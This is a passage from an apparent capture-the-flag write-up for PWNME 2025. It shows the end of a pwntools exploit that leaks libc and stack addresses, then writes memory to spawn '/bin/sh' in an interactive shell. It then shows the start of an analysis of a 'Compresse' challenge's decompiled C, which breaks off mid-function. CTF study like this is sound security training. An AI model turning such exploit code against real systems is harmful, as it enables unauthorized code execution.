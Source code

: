 ```python
            pause()

    elif args.REMOTE:  # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]), ssl=True)
    return p


_IO_CURRENTLY_PUTTING = 0x0800
_IO_IS_APPENDING = 0x1000


p = start()
p.sendlineafter(b'How long is your story ?\n', str(0x800000).encode())
offset = 0xa03790
p.sendlineafter(b"What's the distortion of time and space ?\n",
                str(offset+0x28).encode())
p.sendafter(b"Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only, use them wisely.\n", b'\xff\xff')


p.recv(0x55)
libc.address = u64(p.recv(8)) - libc.sym._IO_file_jumps
p.recv(0x40)
envp = u64(p.recv(8))
log.success(hex(libc.address))
log.success(hex(envp))

p.sendline(f"{envp-0x120} {libc.sym.execve}".encode())
p.sendline(f"{envp-0x6a8} {u64(b'/bin/sh\0')}".encode())

p.interactive()
```

Note: You will see the offset on local process and docker/remote process are different.


# Compresse

[Attachment](/assets/PWNME2025/compress.zip)

```c
char deflated_string[512]; // [rsp+90h] [rbp-420h] BYREF
char flated_string[512]; // [rsp+290h] [rbp-220h] BYREF
```
First, I saw deflated_string and flated_string are uninitialized.

```c
void __fastcall flate_string(const char *s, char *flated_string)
{
  int v2; // eax
  char v3; // [rsp+13h] [rbp-2Dh]
  int v4; // [rsp+14h] [rbp-2Ch]
  int count; // [rsp+18h] [rbp-28h]
  int to_print; // [rsp+1Ch] [rbp-24h]
  int i; // [rsp+20h] [rbp-20h]
  int j; // [rsp+24h] [rbp-1Ch]

  v4 = 0;
  count = 0;
  for ( i = 0; i < strlen(s); ++i )
  {
    if ( ((*__ctype_b_loc())[s[i]] & 0x800) != 0 )
    {
      to_print = 0;
```